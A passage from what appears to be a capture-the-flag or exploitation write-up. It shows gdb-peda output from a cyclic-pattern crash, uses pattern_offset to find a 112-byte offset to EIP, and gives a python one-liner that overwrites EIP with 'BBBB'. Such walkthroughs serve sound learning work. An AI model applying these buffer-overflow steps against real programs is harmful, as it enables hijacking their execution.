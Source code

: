     0000| 0xffffcf80 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8"...)
    0004| 0xffffcf84 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA"...)
    0008| 0xffffcf88 ("AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%"...)
    0012| 0xffffcf8c ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%O"...)
    0016| 0xffffcf90 ("PAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA"...)
    0020| 0xffffcf94 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)
    0024| 0xffffcf98 ("AmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%Q"...)
    0028| 0xffffcf9c ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA"...)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41384141 in ?? ()



I see that the program crashed at `0x41384141` from the message at the
bottom. I'll see this same value in the EIP register if I look up a bit:



    EIP: 0x41384141 ('AA8A')



I can feed that value, either as hex or as a string, into
`pattern_offset` to get the offset in my buffer to the address that
overwrites EIP:



    gdb-peda$ pattern_offset AA8A
    AA8A found at offset: 112
    gdb-peda$ pattern_offset 0x41384141
    1094205761 found at offset: 112



I can show this works by running:



    gdb-peda$ run `python -c 'print "A"*112 + "BBBB"'`

